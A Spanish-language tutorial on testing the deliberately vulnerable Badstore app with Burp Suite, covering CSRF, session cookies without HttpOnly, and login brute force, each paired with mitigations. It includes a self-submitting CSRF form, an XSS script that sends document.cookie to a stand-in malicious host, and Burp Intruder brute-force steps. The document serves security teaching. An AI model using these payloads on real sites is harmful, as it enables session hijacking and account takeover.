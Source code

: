 ### Técnica 3: Exploración de múltiples vulnerabilidades en Badstore usando Burp Suite

#### Paso 1: Exploración y análisis inicial con Burp Suite

El primer paso para encontrar vulnerabilidades es realizar una exploración y análisis exhaustivo del sitio utilizando **Burp Suite Scanner**. Aquí, Burp Suite revisa automáticamente el sitio para encontrar posibles fallos de seguridad.

1. **Configurar Burp Suite para interceptar el tráfico**:
   - Abre Burp Suite y configura tu navegador para que utilice el proxy de Burp Suite (generalmente `127.0.0.1:8080`).
   - Navega por Badstore, llenando formularios, iniciando sesión y realizando otras acciones mientras Burp Suite intercepta y analiza las solicitudes.
2. **Hacer uso de Burp Suite Scanner**:
   - En la pestaña de **Target** en Burp Suite, marca las URL y directorios que deseas escanear (todo el sitio si es necesario).
   - Haz clic derecho en los directorios seleccionados y selecciona **Scan**.
   - Burp Suite Scanner buscará automáticamente vulnerabilidades comunes en todas las rutas seleccionadas, como inyecciones, vulnerabilidades XSS, CSRF y manejo inseguro de sesiones.

#### Paso 2: Detectar vulnerabilidad **Cross-Site Request Forgery (CSRF)**

**CSRF** es un ataque que ocurre cuando un atacante engaña a un usuario autenticado para que realice una acción no deseada en una aplicación web donde el usuario tiene privilegios. El atacante envía una solicitud maliciosa al servidor a nombre del usuario autenticado sin su consentimiento.

1. **Interceptar una solicitud sensible** (por ejemplo, cambiar la contraseña de un usuario):

   - Navega por la página Badstore hasta llegar a una página donde el usuario puede cambiar su información personal (como una página de perfil o cambio de contraseña).
   - Intercepta la solicitud de actualización o cambio con Burp Suite.

2. **Examinar la solicitud**:

   - Verifica si en la solicitud existe algún **token CSRF** o si se basa únicamente en la cookie de sesión del usuario.
   - Si no existe ningún token o validación adicional, es probable que la aplicación sea vulnerable a ataques CSRF.

3. **Explotar la vulnerabilidad CSRF**:

   - Guarda la solicitud interceptada y crea un archivo HTML malicioso que envíe una solicitud similar sin la interacción del usuario. Por ejemplo:

     ```html
     <form action="http://localhost/badstore/change_password.php" method="POST">
       <input type="hidden" name="new_password" value="hacked123">
       <input type="submit" value="Change Password">
     </form>
     <script>
       document.forms[0].submit();
     </script>
     ```

   - Cuando un usuario autenticado visite este HTML malicioso, su contraseña será cambiada sin su consentimiento.

#### Mitigación para CSRF

1. **Usar tokens CSRF**: Implementa un token anti-CSRF en todos los formularios y solicitudes sensibles. Este token debe ser único para cada sesión de usuario y verificado en el servidor antes de procesar la solicitud.
2. **Verificar la fuente de la solicitud**: Asegúrate de que la solicitud provenga del mismo dominio o verifique los encabezados `Origin` o `Referer` antes de ejecutar cualquier acción sensible.

#### Paso 3: Detectar vulnerabilidad en **Manejo inadecuado de cookies de sesión**

Si las cookies de sesión no están configuradas correctamente, los atacantes pueden secuestrar la sesión del usuario. Por ejemplo, si las cookies no tienen el atributo **HttpOnly**, un atacante podría robarlas usando JavaScript.

1. **Revisar las cookies**:

   - Intercepta cualquier solicitud autenticada (por ejemplo, cuando inicias sesión en Badstore).
   - En la pestaña **Proxy** > **HTTP history** de Burp Suite, revisa las respuestas del servidor que contienen las cookies de sesión.
   - Verifica si las cookies de sesión tienen los atributos `HttpOnly` y `Secure`. Si estos atributos están ausentes, la aplicación es vulnerable a ataques de secuestro de sesión.

2. **Explotar la vulnerabilidad**:

   - Si el atributo `HttpOnly` no está presente, puedes inyectar un script XSS (como en el ejemplo de XSS anterior) para robar la cookie de sesión del usuario.

   - Inyecta un script como el siguiente en un campo de entrada vulnerable:

     ```javascript
     <script>
       document.location='http://malicioussite.com/steal.php?cookie='+document.cookie;
     </script>
     ```

   - El script redirige al usuario a un sitio malicioso y envía su cookie de sesión en la URL.

#### Mitigación para el manejo de cookies

1. **Configurar el atributo HttpOnly**: Asegúrate de que las cookies de sesión tengan el atributo `HttpOnly`, lo que impide que el script del lado del cliente acceda a las cookies.
2. **Usar el atributo Secure**: Establece el atributo `Secure` en las cookies para que solo se transmitan a través de conexiones HTTPS seguras.

#### Paso 4: Detectar vulnerabilidad de **Fuerza Bruta en la autenticación**

La autenticación débil o sin medidas de seguridad adicionales como bloqueos temporales después de múltiples intentos fallidos permite a los atacantes realizar ataques de fuerza bruta para descubrir credenciales de usuarios.

1. **Interceptar la solicitud de inicio de sesión**:
   - Navega al formulario de inicio de sesión de Badstore y realiza una solicitud legítima para interceptarla con Burp Suite.
2. **Enviar la solicitud a Burp Intruder**:
   - Haz clic derecho sobre la solicitud interceptada y selecciona **Send to Intruder**.
   - En la pestaña de **Intruder**, marca los campos de nombre de usuario y contraseña como posiciones de ataque (Positions).
3. **Configurar los Payloads**:
   - En la pestaña de **Payloads**, selecciona el tipo de payload **Simple list**.
   - Carga listas de usuarios y contraseñas comunes para realizar el ataque de fuerza bruta.
4. **Ejecutar el ataque**:
   - Ejecuta el ataque de fuerza bruta y revisa las respuestas HTTP para identificar credenciales válidas (generalmente se puede ver por la diferencia en la longitud de las respuestas o por una redirección exitosa a la página de inicio del usuario).

#### Mitigación para fuerza bruta

1. **Implementar bloqueos temporales**: Después de varios intentos fallidos de inicio de sesión, bloquea temporalmente la cuenta o implementa CAPTCHAs.
2. **Usar contraseñas fuertes**: Implementa políticas de contraseñas que requieran contraseñas complejas y utiliza autenticación multifactor (MFA).

------

### Conclusión

Utilizando **Burp Suite**, hemos explorado múltiples vulnerabilidades como **CSRF**, **manejo inadecuado de cookies de sesión**, y **fuerza bruta en autenticación**. Es importante realizar análisis regulares y emplear las siguientes medidas para mitigar estas vulnerabilidades:

- **Tokens CSRF** para evitar ataques de Cross-Site Request Forgery.
- **HttpOnly y Secure** en las cookies para prevenir secuestro de sesiones.
- **Mecanismos de bloqueo y CAPTCHA** para proteger los formularios de inicio de sesión de ataques de fuerza bruta.